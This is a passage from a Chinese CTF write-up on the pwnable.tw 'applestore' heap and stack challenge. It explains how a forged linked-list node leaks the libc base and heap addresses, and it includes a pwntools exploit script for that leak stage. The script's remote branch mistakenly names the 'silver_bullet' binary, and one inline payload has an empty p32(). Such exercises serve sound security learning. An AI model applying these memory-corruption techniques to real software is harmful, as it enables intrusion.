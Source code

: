可见，delete和cart的输入偏移是一致的，均为ebp-22h，不过最后输入需要经过atoi转换成整型，才能进行正常的删除操作。所以这里可以用0x00截断的方式来填充前2个字节，也就是说我们只能控制个位编号的元素删除。有了如上的利用方式，我们就能伪造一个节点，进行打印或者删除操作。那我们利用打印或者删除能做什么呢？一般打印是信息泄露，删除是内存写。

### 泄露libc基址和heap段地址

首先一般是信息泄露，本题我们可以首先泄露libc基址，以及堆段的地址。不过泄露有啥用呢？暂时看不出来。我们通过cart函数便可以打印双链表的一些数据，并且我们控制第27个节点，即栈上的内存。我们可以构造如下节点：

- 前四个字节为漏洞程序的GOT表中一项的地址
- 再四个字节随意
- 再四个字节为&myCart+2，即0x804B070
- 最后四个字节随意

即：`payload = 'y\x00'+p32(myelf.got['puts'])+p32(1)+p32(0x0804B070)+p32()`，如图的stack节点，构造完之后的链表结构如下，bk回边未画出：

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-applestore-5.png)

构造如上节点后，cart函数在遍历打印的时候，遍历到第27个节点时，就会按照我们构造的数据去执行打印，并继续遍历，所以就会把`ELF.GOT['puts']`地址处的内容打印出来，在减去libc中puts函数的偏移就能泄露出来libc的基址。

在继续遍历的时候就会将`&myCart + 2`的地址处识别为一个节点的开头，然后打印这个节点第一个元素所指向的内存，作为第28个节点的打印数据。这个指针本身是指向第一个节点，所以我们就会把第1个节点的数据打印出来直到遇到0x00。第1个节点的前四个字节是asprintf出来的堆块的地址，存储着iphone6这类的字符串。这个地址和堆空间其起始的地址偏移是固定的，所以我们也可以泄露出来堆段的地址。但是我们不知道偏移的具体大小，需要调试，这里我们需要使用本地的libc的信息，32位的一般位于`/lib/i386-linux-gnu/libc.so.6`：

> 此处的libc.so.6是一个软链接，指向当前目录下的libc-2.23.so

> 有意思的是这里我的ubuntu16崩了，我导入快照发现/lib下并没有i386-linux-gnu，此时调用的是/lib32/libc-2.23.so，安装完pwndbg后i386-linux-gnu出现了，这时候查看发现调用的是/lib/i386-linux-gnu/libc-2.23.so

```python
from pwn import *
context(arch='i386',os='linux',log_level='debug')

debug = 1
if debug:
	elf = ELF("./applestore")
	libc = ELF("./my_ubuntu32_libc.so")
	io = process("applestore")
else:
	elf = ELF("./silver_bullet")
	libc = ELF("./libc_32.so.6")
	io = remote("chall.pwnable.tw",10103)
	
add = '2';delete='3';cart='4';checkout='5'
def action(num,payload):
    io.sendlineafter('> ',num)
    io.sendlineafter('> ',payload)

for i in range(16):
    action(add,'1')
for i in range(3):
    action(add,'2')
for i in range(3):
    action(add,'3')
for i in range(4):
    action(add,'4')
action(checkout,'y')

payload = 'y\x00'+p32(elf.got['puts'])+p32(1)+p32(0x0804B070)+p32(1)
action(cart,payload)

io.recvuntil('27: ')
libc_addr = u32(io.recv(4))-libc.symbols['puts']
io.recvuntil('28: ')
heap_addr = u32(io.recv(4))

```